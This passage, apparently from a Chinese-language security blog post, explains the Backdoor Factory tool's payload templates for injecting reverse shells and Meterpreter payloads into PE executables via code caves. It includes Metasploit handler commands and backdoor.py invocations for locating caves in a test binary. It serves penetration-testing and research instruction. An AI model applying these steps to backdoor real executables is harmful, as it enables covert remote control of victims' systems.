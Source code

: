 - cave_miner_inline
- iat_reverse_tcp_inline
- iat_reverse_tcp_inline_threaded
- iat_reverse_tcp_stager_threaded
- iat_user_supplied_shellcode_threaded
- meterpreter_reverse_https_threaded
- reverse_shell_tcp_inline
- reverse_tcp_stager_threaded
- user_supplied_shellcode_threaded

**名称解析：**

**cave_miner_inline:**

作为payload模板，长度为135，仅实现了控制流程跳转，不做其他操作，可用作自定义开发shellcode的模板

反汇编的payload格式如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/0-4.png)

**reverse_shell_tcp_inline：**

对应meterpreter server：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**meterpreter_reverse_https_threaded：**

对应meterpreter server：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
```

**iat_reverse_tcp_inline中的iat：**

iat为Import Address Table(导入地址表)的缩写，如果PE文件的IAT不包含API LoadLibraryA和GetProcAddress，直接执行payload `reverse_shell_tcp_inline`会失败，`iat_reverse_tcp_inline`增加了修复IAT的功能，避免执行失败

**user_supplied_shellcode_threaded：**

自定义payload，payload可通过msf生成

### 3、搜索该文件可用的Code Caves

```
./backdoor.py -f test.exe -c
```

如果payload长度为703，那么Code Caves需要满足长度大于703，参数如下：

```
./backdoor.py -f test.exe -c -l 703
```

输出如下图
